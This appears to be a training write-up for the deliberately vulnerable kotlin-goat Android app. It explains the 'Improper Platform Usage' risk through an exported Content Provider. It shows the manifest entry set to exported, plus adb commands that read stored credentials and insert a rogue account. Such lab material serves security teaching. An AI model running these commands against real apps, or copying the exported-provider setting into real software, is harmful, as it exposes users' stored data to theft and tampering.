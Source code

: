 M1: Improper Platform Usage
===========================
From the [Android documentation] [1]: "Content providers are one of the primary building blocks of Android applications, providing content to applications". Content providers are mostly used to share data between Android applications. Such as Activities, Services or Receivers, Content providers can have weak permissions or can be exported for all the apps on the device. Such misconfiguration can lead the Android app to leak the data used by the Content provider.

When the Content provider is exported, all the apps can query the Content provider to retrieve or modify the data. On the kotlin-goat app, we can identifiy that a Content provider is defined with the name ".AccountProvider" and the exported tag is set to true. Here is an extract of the AndroidManifest file:
```
<provider
            android:name=".AccountProvider"
            android:authorities="com.cx.vulnerablekotlinapp.accounts"
            android:enabled="true"
            android:exported="true" />
```

Looking at the code on the AccountProvider.kt class, we can retrieve the Content URI:
```
companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
        private val ACCOUNTS_TABLE = "Accounts"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Then, using the adb tool, we can query this provider and even insert data. Here is simple example allowing to query the provider in order to retrieve the accounts stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin

```
We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the kotlin-goat app:
```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

More information about how to test improper platform usage can be found on the OWASP Mobile Testing Guide and especially on the [Testing Platorm Interaction] [2] section.

## Resources

### Tools

* adb

### Readings

* [Android documentation][1]
* [Testing Platform Interaction][2]

[1] : https://developer.android.com/reference/android/content/ContentProvider
[2] : https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md